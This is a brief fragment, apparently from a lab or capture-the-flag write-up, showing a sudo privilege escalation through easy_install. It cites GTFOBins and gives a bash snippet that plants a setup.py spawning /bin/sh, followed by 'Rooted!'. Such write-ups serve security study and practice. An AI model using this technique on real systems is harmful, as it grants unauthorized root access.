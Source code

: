 GTFOBins has a script for this binary.&#x20;

```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo easy_install $TF
```

<figure><img src="../../../.gitbook/assets/image (634) (1).png" alt=""><figcaption></figcaption></figure>

Rooted!
